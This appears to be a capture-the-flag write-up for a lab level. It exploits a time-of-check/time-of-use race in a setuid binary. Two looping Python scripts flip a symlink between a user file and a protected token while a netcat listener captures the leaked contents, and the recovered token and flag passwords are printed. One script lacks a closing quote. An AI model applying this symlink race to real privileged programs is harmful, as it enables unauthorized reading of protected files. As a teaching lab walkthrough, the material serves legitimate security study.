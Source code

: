 # level10

We're presented with an executable `level10` and a `token` file. The token can't be read.

We run the executable and it prints a usage message :

```
./level10 file host
        sends file to host if you have access to it
```

We create a file `/tmp/myfile` and try to run `./level10 /tmp/myfile 127.0.0.1`, to send our file to ourselves.

We get the following error message :

```
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
```

The executable seems to send our file's content to the port `6969`.

We set up a `netcat` to listen to any incoming connections and catch the data.

In a new terminal, we run :

```
nc -lk localhost 6969
```

Now, running `./level10 /tmp/myfile 127.0.0.1` yields us the contents of `/tmp/myfile`. We can leave this running and start working on the exploit.

## The exploit

Further examination of the executable with `ltrace` reveals essential information : it starts by checking if the user (us) has rights over the file to open and *then* opens it.

This can be exploited by a **TOCTOU** attack (for Time Of Check, Time Of Use) ; the idea is to get clearance for the file access, and then change it to something we want the access to before it's opened.

We can "change" the file by using a **symbolic link** (`/tmp/link`) that will alternate pointing to our `/tmp/myfile` and to the `./token`.

To this end, we write two simple Python scripts. One to continuously run the executable :

```
import os

while True:
    os.system('./level10 /tmp/link 127.0.0.1)
```

And one to change what `/tmp/link` points to :

```
import os

while True:
    os.system('ln -sf /tmp/file /tmp/link')
    os.system('ln -sf /home/user/level10/token /tmp/link')
```

We're ready to exploit the executable. With `nc -lk localhost 6969` still running in our first terminal, we run each script in a second and third.

Within milliseconds, `nc` displays what we want - the contents of `./token` :

```
woupa2yuojeeaaed06riuj63c
```

## The flag

We use as password for `su flag10` and run `getflag` to get :

```
feulo4b72j7edeahuete3no7c
```